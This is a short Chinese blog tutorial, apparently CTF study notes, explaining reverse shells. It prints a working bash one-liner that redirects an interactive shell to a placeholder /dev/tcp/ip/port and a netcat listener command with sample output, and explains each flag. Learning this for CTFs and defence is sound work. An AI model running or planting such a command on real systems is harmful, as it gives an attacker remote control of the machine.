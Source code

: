 title: nc反弹shell
tags:
  - CTF
categories:
  - CTF
cover: /images/pasted-66.png
date: 2020-03-23 21:34:44
---
这几日做CTF，竟然自己不会用反弹shell
今天，赶紧补一下知识

## 什么是反弹shell？
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

![upload successful](/images/pasted-66.png)

## 使用方法

被控机：
```shell
bash -i >& /dev/tcp/ip/port 0>&1
```

主控机：
```shell
[root@hacker ~]# nc -lvp 6767

Ncat: Version 7.50 ( https://nmap.org/ncat )

Ncat: Listening on :::6767

Ncat: Listening on 0.0.0.0:6767
```

## 原理解释
解释：

```shell
nc -lvp 6767
```
-l 监听，-v 输出交互或出错信息，-p 端口。
nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口。

 
```shell
bash -i
```
-i interactive。即产生一个交互式的shell（bash）。

 
```shell
/dev/tcp/IP/PORT
```
特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 bash 实现的用来实现网络请求的一个接口。
打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。